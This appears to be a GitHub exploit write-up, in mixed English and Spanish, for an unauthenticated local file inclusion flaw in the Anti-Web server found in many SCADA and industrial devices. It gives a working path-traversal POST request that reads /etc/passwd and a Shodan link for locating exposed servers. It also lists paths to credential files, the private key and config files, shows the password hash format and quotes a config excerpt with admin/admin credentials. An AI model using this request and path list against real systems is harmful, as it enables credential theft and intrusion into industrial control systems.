










# Exploit Title: Apps industrial OT over Server: "Anti-Web 3.x.x < 3.8.x" vuln: Local File Inclusion

*** 
	[*] Date: 15/05/2017
	[*] Exploit Author: Bertin Jose ( @bertinjoseb ) && Fernandez Ezequiel ( @capitan_alfa ) 
	[*] Vendor: Multiples vendors
	[*] Category: Industrial OT webapps
***
### [+] DESCRIPTION:
***
	[*] vulnerability:				LFI ( Local File Inclusion ) 
	[*] Attack Vector (AV): 		Remote
	[*] Attack Complexity (AC): 	Low
	[*] Privileges Required (PR):	None  (no necesita autenticacion alguna)
	[*] Confidentiality (C): 		High	
***

### LFI:
Un "LFI" es una vulnerabilidad sobre aplicaciones web que permiten la inclusión de archivos locales, es decir aquellos ficheros que se encuentran en el mismo servidor de la web. La vulnerabilidad radica en la posibilidad de modificar en origen de estos archivos.

La aplicaciones web de los dispositivos testeados permiten las obtención de archivos alojados en el server. Enviando una peticion POST adulterada, apuntando a archivos existentes en el servidor. 
Sin necesidad de ningun tipo de credencial.


## AFFECTED PRODUCTS (testead):

* CRE Technology - BSD plus 			
* Supervision SEGEM Stockage Monaco	

* SAUTER"								
* Ny sida 5						
* Air-Site® - WEB100					
* ABB, SREA-01
* ABB SREA-50, UGETAM-GES
* ABB SREA-50, EDM - De Marco
* AEDILIS SMART-1
* Alliance - AWU 500
* system Alliance - AWU 600
* Carlo Gavazzi - SIU-DLG
* DSE / Deep Sea Electronics
* NetBiter® - FGW200
* NetBiter&reg; - WS100
* NetBiter&reg; - EC150
* NetBiter&reg; - WS200
* NetBiter&reg; - EC250
* NetBiter&reg; - webSCADA
* OUMAN - EH-net
* Smart Qmmunicator
* SyxthSense WebBiter
* (and more....)

* [!] It's products that makes it possible to remotely operate "Scada" control devices and systems via the internet.


## VERSION WEBSERVER:

* Anti-Web V3.0.7-hms2
* ...
* Anti-Web V3.3.5
* ...
* Anti-Web V3.6.1
* ...	
* Anti-Web V3.7.1
* Anti-Web V3.7.2
* ...
* Anti-Web V3.8.1
* Anti-Web V3.8.2
* Anti-Web V3.8.3
* Anti-Web V3.8.4
* Anti-Web V3.8.5
* Anti-Web V3.8.7

## Steps To Reproduction:

### Simple HTTP Request 


```

	POST /cgi-bin/write.cgi HTTP/1.1
	Host: <host>
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: es-AR,en-US;q=0.7,en;q=0.3
	Referer: http://<host>/
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 52

	page=/&template=../../../../../../etc/passwd


```

## on the wild!:
[Servers anti-web](https://www.shodan.io/search?query=anti-web)



### PANEL WEB (examples):



### Tool / PoC:
# anti-web-v1.py <host> <port>


### RUN THE POC:


## cool file: *home/config/users.cfg*
The file "home/config/users.cfg" have all credentials



#### format of passwords hash:

* hashUser = md5(password + username) *










# Other/Old CVE


[CVE-2010-4730](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4730)
[CVE-2010-4733](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4733)

The [Security Advisories and Alerts](https://tools.cisco.com/security/center/viewAlert.x?alertId=21860) of cisco, write:
## "Intellicom Netbiter webSCADA Multiple Vulnerabilities"
***

	To exploit these vulnerabilities, authentication with superadmin privileges is required.  Since the affected software by default assigns superadmin privileges to the user, exploitation of default passwords could increase the security risk.

	However, the affected application fails to prompt for the modification of default passwords during installation.  This flaw could allow the attacker to exploit the existing vulnerabilities within the application if an administrator has not changed the default credentials.

	Intellicom has released updated packages at the following links:

	WS100
	Netbiter v3.30.2 b184

	WS200
	Netbiter v3.30.4 b277

	ICS-CERT has released advisories at the following links: ICSA-10-316-01 and ICSA-10-316-01A

***
### Still vulnerable :
##### Now and without any credentials #





# Scadas examples :

---

---

---

---



## PATHS LFIs:

	[*] PATHS_CONF:
		../etc/config/resolv.conf
		../etc/config/ethernet.conf
		../etc/config/system.conf
		../etc/config/rtu_mast.conf 
		../etc/config/general.conf
		../etc/config/awhttpd.conf

		--------------------------------------------
		privkey 		/etc/config/privkeySrv.pem
		certificate 	/etc/config/certSrv.pem
		----------------------------------------------

	[*] PATH CGI:
		/home/httpd/cgi-bin/read.cgi
		/home/httpd/cgi-bin/write.cgi
		/home/httpd/cgi-bin/systeminfo.cgi 
		/home/httpd/cgi-bin/log.tar         
		/home/httpd/cgi-bin/lcomm.cgi
		/home/httpd/cgi-bin/backup.nbb


	[*] PATHS_extra:

		../home/config/passwd

		../etc/passwd
		../etc/group
		../etc/hosts
		../etc/config/crontab
		../etc/version
		../etc/inittab
		../etc/fstab

		../etc/config/tsmgr.xml
		../etc/config/eventmgr.xml
		../etc/config/commgr.xml
									      <Server>
									         <UserName>admin</UserName>
									         <Password>admin</Password>
									         <LocalIP>10.200.2.1</LocalIP>
									         <RemoteIP>10.200.2.2</RemoteIP>
									      </Server>
		../etc/config/events.xml

		../etc/config/interfaces.xml
		../etc/config/vendorpages.xml
		../etc/config/controllers.xml
		../etc/config/templates/controllers/1.xml
		../etc/config/templates/controllers/broadcast.xml
		../var/alarmstatus.xml
		../tmp/testmail.xml

		../var/log/log.csv
		../home/log/log.csv


